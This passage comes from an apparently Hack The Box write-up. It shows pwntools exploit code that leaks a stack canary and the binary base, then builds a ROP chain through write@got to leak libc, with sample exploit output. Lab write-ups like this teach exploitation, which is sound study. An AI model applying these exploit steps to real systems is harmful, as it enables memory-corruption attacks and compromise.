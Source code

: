 The defined `filter_stack` function parses the relevant addresses from the stack. 

```python
# Reads stack and returns relevant addresses
def filter_stack(stack):
    # First 8 bytes are junk
    canary = u64(stack[8:16])
    log.success(f"Leaked canary: {hex(canary)}")
    rbp = u64(stack[16:24])
    ret = u64(stack[24:32])
    binary.address = ret - pie_offset
    log.success(f"Got binary base: {hex(binary.address)}")
    return canary, rbp
```

Running the script now, we can extract the canary and the base-address of the binary.

```python
root@darkness:~# python3 exploit.py
[*] Stage 1 - Leaking addresses from stack
[+] Leaked canary: 0x623053f4db839400
[+] Got binary base: 0x56513c5af000
```

Now that we have the canary leaked, we can start our rop-exploitation.

### Leaking libc using rop

For more detailed rop-explanation, I suggest to take a look at my [Rope writeup](https://chr0x6eos.github.io/2020/05/23/htb-Rope.html).

To leak libc we use following function:

```python
# Leak libc
def leak_libc(canary, rbp):
    io = startup()
    clear()
    log.info("Stage 2 - Leaking libc using ROP")
    rop = ROP(binary)
    clear()
                                  #write address of write@got
    rop.call(binary.plt['write'], [4, binary.got['write']])
    ropchain(io, canary, rbp, rop)
    write = u64(io.recv(8)) # Get leaked address of write
    libc.address = write - libc.sym['write']
    log.success(f"Leaked libc: {hex(libc.address)}")
    io.close()
    clear()
```

We simply create a ropchain that calls write with `write@got` as an argument. (Same as we did in Rope).

We then write and execute the ropchain using the `ropchain` function:
